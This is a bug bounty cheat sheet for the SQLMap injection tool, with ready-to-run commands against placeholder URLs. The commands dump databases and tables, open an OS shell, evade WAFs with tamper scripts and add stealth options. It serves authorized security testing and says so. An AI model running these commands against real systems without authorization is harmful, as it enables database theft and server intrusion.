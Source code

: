 # SQLMap Fast Documentation for Bug Bounty

## Quick Start Cheat Sheet

### Basic Usage
```
sqlmap -u "http://example.com/vuln.php?id=1" --batch --random-agent
```

### Essential Flags
- `-u` or `--url`: Target URL
- `--batch`: Non-interactive mode (auto-selects defaults)
- `--random-agent`: Randomize User-Agent header
- `--level` and `--risk`: Increase for more thorough tests (1-5 and 1-3 respectively)
- `--dbms`: Specify DBMS (MySQL, Oracle, PostgreSQL, etc.)
- `--os`: Specify OS if known

### Common Scenarios

**GET Parameter Testing**
```
sqlmap -u "http://example.com/page.php?id=1" --dbs
```

**POST Parameter Testing**
```
sqlmap -u "http://example.com/login" --data="username=admin&password=pass" --dbs
```

**Cookie-Based Testing**
```
sqlmap -u "http://example.com/dashboard" --cookie="PHPSESSID=abc123" --dbs
```

### Data Extraction

**List Databases**
```
sqlmap -u "http://example.com/vuln.php?id=1" --dbs
```

**List Tables in Specific DB**
```
sqlmap -u "http://example.com/vuln.php?id=1" -D database_name --tables
```

**Dump Table Data**
```
sqlmap -u "http://example.com/vuln.php?id=1" -D database_name -T table_name --dump
```

**Get OS Shell**
```
sqlmap -u "http://example.com/vuln.php?id=1" --os-shell
```

### Advanced Techniques

**WAF Bypass**
```
sqlmap -u "http://example.com/vuln.php?id=1" --tamper=space2comment --random-agent --delay=1
```

**Common Tamper Scripts**
- `space2comment`: Replaces spaces with comments
- `between`: Replaces BETWEEN with NOT BETWEEN
- `randomcase`: Randomly changes case of characters
- `charencode`: URL-encodes characters

**Threading for Speed**
```
sqlmap -u "http://example.com/vuln.php?id=1" --threads=5
```

### Reporting

**Save Output to File**
```
sqlmap -u "http://example.com/vuln.php?id=1" --output-dir=/path/to/results
```

**Generate HTML Report**
```
sqlmap -u "http://example.com/vuln.php?id=1" --output-dir=/path/to/results --dump-format=HTML
```

## Bug Bounty Pro Tips

1. **Be Ethical**: Only test authorized targets
2. **Rate Limiting**: Use `--delay` to avoid overwhelming servers
3. **Stealth**: Combine `--random-agent`, `--proxy`, and `--time-sec` for stealth
4. **Automation**: Use `--crawl` to automatically find injection points
5. **Second-Order**: Test for stored SQLi with `--second-url`
6. **JSON Injection**: Test API endpoints with `--data` and `--headers="Content-Type: application/json"`

## Legal Disclaimer
Always obtain proper authorization before testing. Unauthorized testing is illegal and against bug bounty program policies.
